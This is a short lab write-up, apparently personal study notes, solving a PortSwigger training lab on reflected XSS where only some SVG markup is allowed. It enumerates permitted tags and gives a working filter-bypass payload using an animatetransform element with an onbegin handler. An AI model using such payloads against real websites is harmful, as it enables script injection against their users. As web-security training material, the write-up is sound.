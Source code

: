 
### Reflected XSS with some SVG markup allowed : PRACTITIONER

---

> Do the same technique as [[Portswigger/XSS/Lab 13|Lab 13]] to get the available tags.
* `<svg>`
* `<animatetransform`
* `<title>`
* `<image`

> We will use a payload looking like this since `svg` is a tag that allows for other tags inside it.
```
<svg> <animatetransform XX=alert(1)> </svg>
```

> Do the same technique as [[Portswigger/XSS/Lab 11|Lab 11]] to get the available events with that tag, we get the `onbegin` attribute.

> So our payload is now
```
<svg> <animatetransform onbegin=alert(1)> </svg>
```

> Put that in the search bar and submit to see the pop-up and complete the lab.

---

